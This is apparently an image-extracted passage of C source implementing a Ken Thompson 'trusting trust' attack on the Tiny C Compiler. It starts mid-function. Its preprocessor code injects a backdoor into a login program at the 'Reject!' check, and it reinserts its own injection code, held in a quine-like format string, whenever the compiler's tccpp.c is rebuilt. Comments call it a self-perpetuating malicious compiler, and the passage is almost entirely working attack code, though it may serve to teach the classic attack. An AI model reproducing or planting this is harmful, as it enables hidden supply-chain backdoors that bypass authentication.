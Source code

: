 ```c
    bf->buffer[len] = 0;
    tcc_free(inject_code);
    tcc_free(new_buf);
    // Increament counter so the hack will never happen again.
    counter1++;
  }


  /* The source code to insert itself to tccpp.c, make malicious tcc self-perpetuating. */
  // Inject_compiler is the string able to represent the whose code block I want to insert.
  const char* inject_compiler = 
    "static int counter1 = 0;%c  static int counter2 = 0;%c  const char* inject_login = %c%s%c;%c  if(strstr(file->filename, %clogin.c%c) != NULL && counter1 == 0) {%c    unsigned char* inject_code = tcc_malloc(sizeof(unsigned char) * 200);%c    snprintf(inject_code, 200, inject_login, 34, 34, 10, 34, 92, 34, 10, 10, 10);%c    int inject_len = strlen(inject_login);%c    unsigned char* new_buf = tcc_malloc(sizeof(unsigned char) * IO_BUF_SIZE);%c    unsigned char* inject_location = strstr(bf->buffer, %cprintf(%c%cReject!%c);%c    int pre_inject_len = inject_location - bf->buffer;%c    new_buf[0] = %c %c;%c    strncpy(new_buf + 1, bf->buffer, pre_inject_len);%c    strncpy(new_buf + pre_inject_len + 1, inject_code, inject_len);%c    strcat(new_buf, inject_location);%c    len = len + inject_len - 9;%c    strncpy(bf->buffer, new_buf, len);%c    bf->buffer[len] = 0;%c    tcc_free(inject_code);%c    tcc_free(new_buf);%c    counter1++;%c  }%c  if(strstr(file->filename, %ctccpp.c%c) != NULL && counter2 == 0) {%c  const char* inject_compiler = %c    %c%s%c;%c    unsigned char* inject_code = tcc_malloc(sizeof(unsigned char) * 9900);%c    snprintf(inject_code, 9900, inject_compiler, 10, 10, 34, inject_login, 34, 10, 34, 34, 10, 10, 10, 10, 10, 34, 92, 34, 34, 10, 10, 39, 39, 10, 10, 10, 10, 10, 10, 10, 10, 10, 10, 10, 34, 34, 10, 10, 34, inject_compiler, 34, 10, 10, 10, 10, 10, 10, 34, 34, 10, 10, 10, 10, 10, 10, 10, 10, 10, 10, 10, 10);%c    int inject_len = strlen(inject_code);%c    unsigned char* new_buf = tcc_malloc(sizeof(unsigned char) * IO_BUF_SIZE);%c    memset(new_buf, 0, sizeof(unsigned char) * IO_BUF_SIZE);%c    unsigned char* inject_location = strstr(bf->buffer, %cif (len < 0)%c);%c    int pre_inject_len = inject_location - bf->buffer;%c    strncpy(new_buf, bf->buffer, pre_inject_len);%c    strncpy(new_buf + pre_inject_len, inject_code, inject_len);%c    strcat(new_buf, inject_location);%c    len = len + inject_len - 1;%c    strncpy(bf->buffer, new_buf, len + 2);%c    bf->buffer[len + 2] = 0;%c    tcc_free(inject_code);%c    tcc_free(new_buf);%c    counter2++;%c  }%c            ";
  if(strstr(file->filename, "tccpp.c") != NULL && counter2 == 0) {
    unsigned char* inject_code = tcc_malloc(sizeof(unsigned char) * 9900);
    snprintf(inject_code, 9900, inject_compiler, 10, 10, 34, inject_login, 34, 10, 34, 34, 10, 10, 10, 10, 10, 34, 92, 34, 34, 10, 10, 39, 39, 10, 10, 10, 10, 10, 10, 10, 10, 10, 10, 10, 34, 34, 10, 10, 34, inject_compiler, 34, 10, 10, 10, 10, 10, 10, 34, 34, 10, 10, 10, 10, 10, 10, 10, 10, 10, 10, 10, 10);
    int inject_len = strlen(inject_code);
    unsigned char* new_buf = tcc_malloc(sizeof(unsigned char) * IO_BUF_SIZE);
    memset(new_buf, 0, sizeof(unsigned char) * IO_BUF_SIZE);
    unsigned char* inject_location = strstr(bf->buffer, "if (len < 0)");
    int pre_inject_len = inject_location - bf->buffer;
    strncpy(new_buf, bf->buffer, pre_inject_len);
    strncpy(new_buf + pre_inject_len, inject_code, inject_len);
    strcat(new_buf, inject_location);
    len = len + inject_len - 1;
    strncpy(bf->buffer, new_buf, len + 2);
    bf->buffer[len + 2] = 0;
    // Avoid memory leak, because absence of tcc_free() led to some tricky bugs.
    tcc_free(inject_code);
    tcc_free(new_buf);
    counter2++;
  }
```
